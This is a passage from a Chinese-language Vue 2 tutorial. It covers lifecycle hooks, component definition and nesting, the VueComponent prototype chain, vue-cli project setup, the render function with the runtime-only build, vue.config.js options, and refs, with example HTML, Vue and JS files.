         console.log('mounted...vm=',this);
       },
       beforeUpdate(){//数据更新界面未更新时
         console.log('beforeUpdate...vm=',this);
         /*console.log('beforeUpdate...n=',this.n);
         debugger;//数据先更新但页面还没更新*/
       },
       updated(){//页面和数据完成同步时
         console.log('updated...vm',this);
         /*console.log('updated...n=',this.n);
         debugger;//数据和页面都已经同步更新*/
       },
       beforeDestroy(){//即将被销毁前，到这一步不管怎么操作都不能回到前面阶段了
         console.log('beforeDestroy...vm',this);
         this.add();
       },
       destroyed(){//完成销毁后
         console.log('destroyed...vm',this);
       }
     })
   </script>
   </body>
   </html>
   ```

   

共8个函数，根据其前后关联性分为4组：

1. beforeCreate 与 created：实例完全创建前 与 实例完全创建后
2. beforeMount 与 mounted：模板元素挂载前 与 模板元素挂载后
3. beforeUpdate 与 updated：数据更新前 与 数据更新后
4. beforeDestroy 与 destroyed：实例销毁前 与 实例销毁后

#### 案例3：文字渐变动画后续


想这种会导致vm停止当关联的属性还在继续执行的场景，需要有特定的生命周期钩子函数来调用收尾工作。

```html
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <title>总结生命周期</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2 v-if="a">hello</h2>
    <h2 :style="{opacity}">欢迎学习Vue</h2><!--样式名和属性名重名，省略掉-->
    <button @click="opacity=1">透明度为1</button>
    <button @click="stop">点我停止变换</button>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    const vm = new Vue({
        el:'#root',
        data:{
            opacity:1,
            a:false
        },
        methods:{
            stop(){
                this.$destroy();//直接把vm干掉，这样别人想改都动不了
            }
        },
        //Vue完成模板解析，并把真实的DOM元素放入页面后（挂载完毕）调用mounted
        mounted(){//挂载 Vue管理容器->找到模板:style="{opacity}"->解析到虚拟DOM->转换为真实DOM->将真实元素挂载到页面->
            console.log('mounted:只会调用一次，第一次把东西放入页面，以后的操作就不算挂载，是更新')
            this.timer = setInterval(()=>{//将id存到vue实例
                console.log("timer")
                this.opacity-=0.01;
                if (this.opacity <= 0){
                    this.opacity = 1;
                }
            },16)
        },
        beforeDestroy() {//任何导致vm将销毁场景，则这里得做收尾工作，停掉定时器，不然会导致vue实例消失但定时器还在运行
            clearInterval(this.timer);//获取实例中的变量，记得往vue实例直接存储属性时要避免属性名敏感
        }
    })

    /*通过外部定时器实现*/
    /*setInterval(()=>{
        vm.opacity-=0.01;
        if (vm.opacity <= 0){
            vm.opacity = 1;
        }
    },16)*/
</script>
</body>
</html>
```


## 脚手架vue-cli

### Vue组件概念

**传统应用中的结构问题？**


**什么是模块？**

1. 理解：向外提供特定功能的js程序，一般就是一个js文件
2. 为什么：js文件很多很复杂
3. 作用：复用js，简化js的编写，提高js运行效率

**什么是组件？**

1. 理解：**组件——实现应用中局部功能代码和资源的集合**
2. 为什么：一个界面的功能很复杂
3. 作用：复用编码，简化项目编码，提高运行效率


**模块化**

* 当应用中的js都以模块来编写的，那这个应用就是一个模块化的应用。
* 总js文件拆分，就是模块化的应用
  * 模块1js
  * 模块2js
  * 模块3js
  * ...


**组件化**

* 当应用中的功能都是多组件的方式来编写的，那这个应用就是一个组件化的应用。




### 定义一个Vue组件

#### 非单文件组件

```
一个文件中包含有n个组件
```

1. 创建组件
2. 注册组件
3. 使用组件标签


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>基本使用</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h1>{{msg}}</h1>
  <hr>
  <!--<h2>学校名称：{{name}}</h2>
  <h2>学校地址：{{address}}</h2>
  <hr>
  <h2>学生姓名：{{name}}</h2>
  <h2>学生年龄：{{age}}</h2>-->

  <!--定义好组件后，使用时以组件标签形式-->
  <xuexiao></xuexiao>
  <hr>
  <student></student>
  <student></student><!--一个组件可以使用多次，它们之间的数据互不干扰-->
</div>

<hr>
<!--测试配置全局组件-->
<div id="root2">
  <hello></hello>
</div>
<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  //之前学习的Vue实例方式
  /*new Vue({
    el:'#root',
    data:{
      schoolName:'白云大学',
      address:'广州白云区',
      studentName:'zhuzhe',
      age:18
    }
  })*/

  //创建school组件
  const school = Vue.extend({
    //el:'#root',//组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
    template:`
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName">点我提示学校名称</button>
      </div>
    `,
    data:function(){
      return {
        name:'白云大学',
        address:'广州白云区'
      }
    },
    methods:{//在组件里写就当作和之前在Vue实例中一样
      showName:function () {
        alert(this.name);
      }
    }
  })

  //创建student组件
  const student = Vue.extend({
    //el:'#root',//组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
    template:`
      <div>
        <h2>学生姓名：{{name}}</h2>
        <h2>学生年龄：{{age}}</h2>
      </div>
    `,
    data:function(){
      return {
        name:'zhuzhe',
        age:26
      }
    }
  })

  //创建全局组件
  const hello = Vue.extend({
    template:`
      <div>
        <h2>hello,{{name}}</h2>
      </div>
    `,
    data(){
      return {
        name:'zhuzhe'
      }
    }
  })

  //注册全局组件
  Vue.component('hello',hello);

  //创建Vue实例（只使用局部组件）
  const vm1 = new Vue({
    el:'#root',//指定组件服务容器
    data:{
      msg:'hello'
    },
    //注册组件（局部注册）
    components:{
      xuexiao:school,
      student
    }
  })

  //创建Vue实例（使用全局组件）
  const vm2 = new Vue({
    el:'#root2'
  })

</script>
</body>
</html>
```

展示效果：


**注意点**


**组件的嵌套**

这里应用了前面注意点中的`组件别名`、`单标签`、`组件函数简写`

并且引入一个在实际开发Vue中的操作，Vue只管理一个组件app，app下则管理多个组件。


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>模板</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">

</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  //定义student组件
  const student = Vue.extend({
    name:'innerStudent',
    template:`
      <div>
        <h2>学生姓名：{{name}}</h2>
        <h2>学生年龄：{{age}}</h2>
      </div>
    `,
    data(){
      return{
        name:'cxr',
        age:66
      }
    }
  })

  //定义school组件
  const school = Vue.extend({
    name:'zhuzheSchool',//指定在开发者工具中的别名
    template:`
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{addr}}</h2>
        <student></student>
      </div>
      `,
    data(){
      return {
        name:'zhuzhe',
        addr:'广东汕头'
      }
    },
    components:{//在school组件内部引入子组件student
      student
    }
  })

  //定义组件hello
  const hello = {//简写定义方式，但实际在Vue实例解析组件时，发现是对象还是会拿去调Vue.extend()
    template:`
      <div>
        <h2>hello,{{name}}</h2>
      </div>
    `,
    data(){
      return{
        name:'cxk'
      }
    }
  }

  //创建顶部组件app
  const app = Vue.extend({
    template:`
      <div>
        <school/>
        <hello/>
      </div>
    `,
    components:{
      school,
      hello
    }
  })

  //注册组件
  const vm = new Vue({
    template:'<app></app>',
    el:'#root',
    data:{
      msg:'hello'
    },
    components:{app}
  })

</script>
</body>
</html>
```


**VueComponent**

从输出组件的信息可以看到，组件是一个构造函数。


查看Vue.extend的源码，可以看到组件是通过调用VueComponent完成实例化，所以每个组件都是独立的VueComponent实例。

```js
Vue.extend = function (extendOptions) {
    //...
    var Sub = function VueComponent(options) {
        this._init(options);
    };
    //...
    return Sub;
};
```


在组件中，this不是指向vm而是指向vc(VueComponent)对象，并且vm管理着vc


测试代码：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>VueComponent</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <school></school>
  <hello></hello>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  //定于school组件
  const school = Vue.extend({
    template:`
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{addr}}</h2>
        <button @click="showSchool">点我提示学校名</button>
      </div>
    `,
    data(){
      return{
        name:'zhuzhe',
        addr:'广东汕头'
      }
    },
    methods:{
      showSchool(){
        console.log(this)
        alert(this.name)//这里的this是vc（VueComponent）对象，和vm（Vue）对象一模一样
      }
    }
  })

  //定义test组件
  const test = Vue.extend({
    template:'<span>我是hello的子组件</span>'
  })

  //定义hello组件
  const hello = Vue.extend({
    template:`
      <div>
        <h2>{{msg}}</h2>
        <test></test>
      </div>
    `,
    data(){
      return{
        msg:'hello'
      }
    },
    components:{
      test
    }
  })

  //说明组件是构造函数
  console.log('@',school)
  console.log('#',hello)
  //验证school和hello是否同一个VueComponent实例
  console.log('比较：',school===hello)
  school.a = 99;
  console.log('school.a=',school.a)
  console.log('hello.a',hello.a)


  //定义Vue实例，注册组件
  const vm = new Vue({
    el:'#root',
    components:{
      school,hello
    }
  })
</script>
</body>
</html>
```

**内置关系**

vm（Vue实例对象）和vc（组件实例对象）不一样。组件是可复用的Vue实例，所以它可以与new Vue时的配置项一样。仅有意外的类似el的属性没有。并且组件中的data必须是函数格式，为了保证每次产生的VueComponent对象里的data都是全新的。


在Vue中，创建和实例化过程，都维护一个Vue原型对象，只不过在Vue构造函数中使用的是显式原型引用prototype，在vue实例中是隐式原型引用`__proto__`。

> JS的原型链：

实例的隐式原型属性永远指向其缔造者原型对象。即Vue的原型对象指向Object原型对象。

> Vue的操作：

Vue将原本原型链中，组件VueComponent的原型对象Object给更改指向了Vue的原型对象，这使得VueComponent也拥有了Vue的原型对象属性和方法。

所以下面的等式成立：

```js
//组件的原型对象的上一级原型对象，是Vue实例的原型对象
VueComponent.prototype.__proto__ === Vue.prototype
```

这样处理的本质是给组件对象提供Vue原型对象这一层兜底，不然按照传统的JS原型链：

```js
VueComponent.prototype.__proto__ === Object.prototype
```

Vue使用这种方式，让VueComponent组件对象也拥有了Vue的很多功能。


测试：从VueComponent对象school中访问Vue实例vm所设置的属性x：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>一个重要的内置关系</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <school/>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false
  Vue.prototype.x = 99;//给原型对象设置属性

  /*function Demo() {
    this.a = 1
    this.b = 2
  }
  //创建一个Demo的实例对象
  const d = new Demo();
  console.log(d)

  //下面这两个属性都指向同一个原型对象
  console.log(Demo.prototype)//显式原型属性
  console.log(d.__proto__)//隐式原型属性

  //通过显示原型属性操作原型对象，新增属性
  Demo.prototype.x = 99;

  console.log(d.__proto__.x);//可以在隐式中查到
  console.log(Demo.prototype === d.__proto__);//可以在隐式中查到
  console.log(d.x)//这种调用方式就是通过隐式原型对象获取*/

  //定于school组件
  const school = Vue.extend({
    template:`
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{addr}}</h2>
        <button @click="showSchool">点我提示学校名</button>
        <button @click="showX">点我展示X</button>
      </div>
    `,
    data(){
      return{
        name:'zhuzhe',
        addr:'广东汕头'
      }
    },
    methods:{
      showSchool(){
        console.log(this)
        alert(this.name)//这里的this是vc（VueComponent）对象，和vm（Vue）对象一模一样
      },
      showX(){
        console.log(this.x);//通过原型链找到Vue实例原型对象中的内容
      }
    }
  })
  //定义Vue实例
  const vm = new Vue({
    el:'#root',
    data:{
      message:'hello'
    },
    components:{
      school
    }
  })

  console.log('原型链比较：',school.prototype.__proto__ == Vue.prototype)//组件的原型对象和Vue原型对象一样
</script>
</body>
</html>
```



组件实例对象就是一个小型的Vue实例，但是缺少很多东西，比如数据对象就得写成函数式。


#### 单文件组件

```
一个文件中只包含有1个组件
```

开始设计`???.vue`文件，因为一个vue文件中包含了css、js、html等文件，所以在编写vue文件后需要进行编译加工，常用的加工工具：

* webpack
* 脚手架

文件命名规范：

* school.vue
* School.vue（常用）
* my-school.vue
* MySchool.vue（常用）


**一个简单的vue组件案例**


School.vue

```vue
<template>
  <!--组件的结构-->
  <div class="demo">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{addr}}</h2>
    <button @click="showSchool">点我提示学校名</button>
  </div>
</template>

<script>
  /*组件交互相关的代码（数据、方法等等）*/
  //需要模块化暴露，让调用者可用（ES6）

  //分别暴露
  /*export const school = Vue.extend({
    data(){
      return{
        name:'zhuzhe',
        addr:'广东汕头'
      }
    },
    methods:{
      showSchool(){
        alert(this.name)
      }
    }
  })*/

  //统一暴露，和分别暴露一样，调用者 import {???} from ???
  //export {school}

  //默认暴露，当只有一个暴露目标时使用，调用者 import ??? from ???
  //export default school

  //默认暴露简写，将调用交给Vue实例
  export default {
    name:'School',
    data(){
      return{
        name:'zhuzhe',
        addr:'广东汕头'
      }
    },
    methods:{
      showSchool(){
        alert(this.name)
      }
    }
  }
</script>

<style>
  /*组件的样式*/
  .demo{
    background-color: orange;
  }
</style>
```

Student.vue

```vue
<template>
  <!--组件的结构-->
  <div>
    <h2>学生名称：{{name}}</h2>
    <h2>学生年龄：{{age}}</h2>
  </div>
</template>

<script>
  /*组件交互相关的代码（数据、方法等等）*/
  export default {
    name:'Student',
    data(){
      return{
        name:'cxr',
        age:26
      }
    }
  }
</script>
```

App.vue

```html
<template>
  <!--组件的结构-->
  <div>
    <School/>
    <Student/>
  </div>
</template>

<script>
  /*组件交互相关的代码（数据、方法等等）*/
  //引入组件
  import School from "./School";//引入school组件来自当前目录下的school文件
  import Student from "./Student";

  export default {
    name:'App',
    components:{
      School,Student
    }
  }
</script>

<style>
  /*组件的样式*/
</style>
```

main.js

```js
import App from "./App";

new Vue({
    el:'#root',
    template:`<App/>`,/*使用template来插入模板*/
    components:{App}/*注册组件来处理模板*/
})
```

index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>练习下单文件组件的语法</title>
</head>
<body>
  <div id="root"></div>
  <!--在前面容器加载完毕后才能引入js进行vue操作-->
  <script type="application/javascript" src="../js/vue.js"></script>
  <script type="application/javascript" src="./main.js"></script>
</body>
</html>
```

上面的代码还不能直接在浏览器运行，因为不知道导入???.vue文件，需要脚手架来运行。


### 使用Vue脚手架

#### 下载安装

> 说明

1. Vue脚手架是Vue官方提供的标准化开发工具（开发平台）
2. 最新的版本是5.x
3. 文档：https://cli.vuejs.org/zh/

> 安装步骤


1. 安装node.js

   官网：https://nodejs.org/zh-cn/download/

   

   、

   

   

   

   

   

   

   完成安装，查看版本

   

2. 配置淘宝镜像

   

3. 全局安装@vue/cli

   ```shell
   npm install -g @vue/cli
   ```

   

   安装完毕查看效果

   

4. 切换到你要创建项目的目录，然后使用命令创建项目

   ```shell
   vue run xxxx
   ```

   创建项目：

   

   选择vue2项目：

   

   创建成功：

   

   

5. 启动项目

   ```shell
   npm run serve
   ```

   


成功访问：


备注：

下载缓慢则替换npm淘宝镜像

```shell
npm config set registry=http://registry.npm.taobao.org
```

Vue脚手架隐藏了所有webpack相关的配置，若想查看具体的webpack配置，请执行

```shell
vue inspect > output.js
```

webstorm配置





#### **脚手架结构分析**


* babel.config.js：涉及ES6转ES5

* .gitignore：git忽略文件

* package.json：提供服务相关命令（webpack）

  * server:启动服务
  * build：最后的编译，将vue编译成浏览器可以识别的html、css、js
  * lint：语法检查js、css（少用）

* package-lock.json：

  * 包版本管理器

* README.md：vue教程

* src

  * main.js：和我们编写是一样，启动服务时实例化Vue

    

    可以把启动脚本注释，填入console来查看

    

    

    main.js解析

    ```js
    /*改文件是整个项目的入口文件*/
    //引入Vue
    import Vue from 'vue'
    //引入App组件，是所有组件的父组件
    import App from './App.vue'
    //关闭Vue的生产提示
    Vue.config.productionTip = false
    //创建Vue实例对象
    /*new Vue({
      render: h => h(App),/!*完成了将App组件放入容器app中*!/
    }).$mount('#app')*/
    new Vue({
      el:'#app',
      render: h => h(App),
    })
    ```

  * App.vue 父组件

  * assets：静态资源文件夹

  * components：存放组件，除了App.vue

* public

  * favicon.ico：网站图标

  * index.html：应用主页

    ```html
    <!DOCTYPE html>
    <html lang="">
      <head>
        <meta charset="utf-8">
        <!--正对IE浏览器的一个特殊配置，含义是让IE浏览器以最高渲染级别渲染页面-->
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <!--开启移动端的理想视口-->
        <meta name="viewport" content="width=device-width,initial-scale=1.0">
        <!--配置页签图标：当前目录-->
        <link rel="icon" href="<%= BASE_URL %>favicon.ico">
        <!--配置页签标题-->
        <title><%= htmlWebpackPlugin.options.title %></title>
      </head>
      <body>
        <!--noscript如果浏览器不支持js则会出现下面的内容-->
        <noscript>
          <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
        </noscript>
        <!--容器-->
        <div id="app"></div>
        <!-- built files will be auto injected -->
      </body>
    </html>
    ```

    


#### 替换为自己的代码

更改App.vue


放入Student.vue和School.vue文件


注意修改Student和School为双驼峰命名，即两个单词


成功启动：


访问页面：

启动后控制台没有报错


开发工具也正常识别出来Vue实例


到此为止就成功使用脚手架创建helloworld项目，并填入我们写的vue组件单文件，成功启动项目并访问到页面。


### render函数

在官方脚手架运行后，提供的demo中，启动进入main.js去实例化Vue实例，使用到了render函数。

之前我们在使用Vue时，main.js是设计为这样的：

```js
new Vue({
    el:'#app',
    template:`<App></App>`,
    components:{App}
})
```

在Vue脚手架创建的Hello World项目中:

```js
new Vue({
  render: h => h(App),
}).$mount('#app')
```

可以看到不同的点：

* 引入容器的方式不同，这个我们在前面也学习过。
* 引入组件和模板的方式不同，这是新的方式。

如果使用我们自己的方式来创建Vue实例，会报错：


```
你正在使用一个运行时版本的Vue（残缺版Vue），你没有模板解析器。

* 要么把要编译的模板交给render函数。
* 要么使用包含编译器的Vue版本（完整版）
```

这里会出现这个问题，是因为这一句代码所引入的Vue有问题。


#### 脚手架项目中的 runtime vue

这里引入的是一个Vue模块，指向一个Vue目录


Vue模块通过package.json指定具体引入的Vue.js


引入的是vue.runtime.esm.js这是一个缺少了模板解析器的Vue


可以通过更改源代码来看到效果：


**解决方法**

前面的提示中可以看到两种解决方案：

* 要么把要编译的模板交给render函数。
* 要么使用包含编译器的Vue版本（完整版）

> 这里先尝试使用第二种方案：

* 可以看到，之前导入的Vue文件夹中是有完整版Vue.js的，不使用package.json，自己来导入。

  

* 重启项目重新编译，访问

  可以看到，切换完全版Vue.js后，一切都展示正常了。

  

这里可以看到，项目中是提供了完整版Vue的，但却使用残缺版Vue，可以发觉应该是为了优化才会使用残缺版Vue+render函数。


#### render函数解析

> 使用render函数

直接编写render函数，查看其传参的类型：


是一个函数：


在render函数中，传参createElement是表示创建元素，可以用来创建html标签

比如：


项目重新编译后：


这里表达的就是，当你引用残缺版Vue.js时，想创建元素就得借由这一个传参createElement

从上面的代码中可以借由ES6进行语法优化：

优化1：箭头函数

```js
new Vue({
  el:'#app',
  render:(createElement)=>{
    console.log(typeof createElement);
    return createElement('h2','hello')
  }
})
```

优化2：当函数只有一个参数时，去掉括号

```js
new Vue({
  el:'#app',
  render:createElement=>{
    return createElement('h2','hello')
  }
})
```

优化3：当箭头函数的函数体只有一句话，并且是返回一个对象，则可以去除函数体和return

```js
new Vue({
  el:'#app',
  render:createElement=>createElement('h2','hello')
})
```

优化4：当传参可去除语义时，只表达是一个参数，则再压缩

```js
new Vue({
  el:'#app',
  render:h => h('h2','hello')
})
```

此时就可以看出来当初这一个HelloWorld项目中render函数的意思了。使用createElement来创建组件。

```js
new Vue({
  el:'#app',
  render:function (createElement) {
      return createElement(App);
  }
})
```



可以看到正常显示了。


将这一个render函数按照前面步骤一个个优化，最终也就是在HelloWorld项目中初次见到的render函数了。

```js
new Vue({
  el:'#app',
  render:h => h(App)
})
```


#### 为什么使用runtime vue

> 为什么使用残缺版Vue

在Vue代码里，**模板解析器都占据Vue的1/3**的位置，在编写代码完成后，webpack打包时会把模板解析器给打包进代码里，而开发完成后打包是不需要模板解析器的。

打包过程是把xxx.vue解析为js、html、css，一次编译将所有文件都转换为浏览器可以阅读的纯粹文件。

Vue的做法是提供一个没有模板解析器的Vue.js，这样在打包的时候可以省点代码。


esm：ES6+Module。适合使用ES6的模块化语法引入。

common：使用common.js语法来引入模块

package.json中定义了`<template></template>`的标签解析，但不提供在Vue实例中的template属性解析。


使用精简版Vue的好处：

* 打包省点体积
* 打包结果不会存在不需要的东西


### 脚手架配置


前面的脚手架HelloWorld项目中默认是没有webpack的配置，可以通过

```
vue inspect > output.js
```

来输出查看webpack的配置。


可以在项目中看到生成的配置文件（因为这是配置文件，所以使用的是对象格式，同时因为存在js文件中，所以会有出现展示保红的情况）


如果使用脚手架的默认配置，则这些红色框的内容不能更改。粉色框的可以修改。


可以允许改的配置项是在Vue官网中有说明：https://cli.vuejs.org/zh/config/


新建可选文件vue.config.js调整脚手架配置

新版中已经在脚手架项目构建时提供好了。


这里不是ES6语法而是CoomonJS语法，因为这个配置是应用到webpack的，而webpack是基于NodeJS运行的，NodeJS是使用CommonJS语法。

官网提供的配置写法：

```js
module.exports = {
  pages: {
    index: {
      // page 的入口
      entry: 'src/index/main.js',
      // 模板来源
      template: 'public/index.html',
      // 在 dist/index.html 的输出
      filename: 'index.html',
      // 当使用 title 选项时，
      // template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
      title: 'Index Page',
      // 在这个页面中包含的块，默认情况下会包含
      // 提取出来的通用 chunk 和 vendor chunk。
      chunks: ['chunk-vendors', 'chunk-common', 'index']
    },
    // 当使用只有入口的字符串格式时，
    // 模板会被推导为 `public/subpage.html`
    // 并且如果找不到的话，就回退到 `public/index.html`。
    // 输出文件名会被推导为 `subpage.html`。
    subpage: 'src/subpage/main.js'
  }
}
```


#### 更改项目入口 pages

这里我们只需要更改下入口来测试下。

vue.config.js


zhuzhe.js


#### 更改语法检查 lintOnSave

我们在编写一些代码时会有语法检查，比如我们使用createElement定义一个容器标签，因为`<App/>`不是传统HTML标签，所以会报错。（实际也不用那么定义，可以直接把组件对象交给createElement）

```js
/*改文件是整个项目的入口文件*/
console.log("zhuzhe.js init...")
//引入Vue
import Vue from 'vue'
//引入App组件，是所有组件的父组件
import App from './App.vue'
//关闭Vue的生产提示
Vue.config.productionTip = false
//创建Vue实例对象
/*new Vue({
  render: h => h(App),/!*完成了将App组件放入容器app中*!/
}).$mount('#app')*/
new Vue({
  el:'#app',
  render:h => h('App')
})
```

那么在编译时就会进行语法检查，并提示：


对于的页面访问会提示：


可以看到，语法检查是比较严格的，但项目的运行是可以的。通常都是在编写全部代码后才进行一个语法检查，我们在开发过程中是不需要一直提示语法问题，可以在脚手架配置中进行关闭。

```js
const { defineConfig } = require('@vue/cli-service')
module.exports = defineConfig({
  transpileDependencies: true,
  pages:{
    index:{
      //配置新的Vue脚手架项目入口
      entry:'src/zhuzhe.js'
    }
  },
  lintOnSave:false //关闭语法检查
})
```

关闭之后控制台就不报错了：


同时在页面也不提示了：


### html标签标识ref


将前面的代码src复制一份，从新编写新的代码。App管理所有组件、一个School组件、mainJs入口启动Vue实例并引用App组件：


main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//关闭vue的生产提示
Vue.config.productionTip=false
//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App)
})
```

App.vue

```vue
<template>
  <div>
    <School/>
    <School/>
    <School/>
  </div>
</template>

<script>
import School from "./components/School";
export default {
  name:'App',
  components: {School}
}
</script>

<style>

</style>
```

School.vue

```vue
<template>
  <div class="info">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{addr}}</h2>
  </div>
</template>

<script>
  export default {
    name:'SchoolInfo',
    data(){
      return{
        name:'zhuzhe',
        addr:'广东汕头'
      }
    }
  }
</script>

<style>
  .info{
    background-color: antiquewhite;
  }
</style>
```

展示效果：


比如现在有一个需求，需要获取到当前容器中某一个元素的DOM。那如果使用传统方式是：


确实可以获取到


但Vue也提供了一种新的方式：ref给标签定义标识，这样标识就会存储在VueComponent对象的refs属性中。


这样就可以在组件实例中获取元素DOM


也可以用来获取组件实例对象：**因为组件自定义标签使用id只能获取标签，使用ref能获取组件对象**

```
<School ref="sch"/>
```

```
methods:{
  showDOM(){
    console.dir(this.$refs.sch)
  }
}
```


```vue
<template>
  <div>
    <h1 v-text="msg" ref="title"></h1>
    <button ref="btn" @click="showDOM">点我输出上面的dom元素</button>
    <School ref="sch"/>
<!--    <School/>-->
<!--    <School/>-->
  </div>
</template>

<script>
import School from "./components/School";
export default {
  name:'App',
  data(){
    return{
      msg:'hello'
    }
  },
  methods:{
    showDOM(){
      console.dir(this.$refs.title)//真实DOM元素
      console.dir(this.$refs.btn)//真实DOM元素
      console.dir(this.$refs.sch)//School组件对象
    }
  },
  components: {School}
}
</script>

<style>

</style>
```

### 配置项props(外部数据传递进组件)

```
外部传值到组件
```

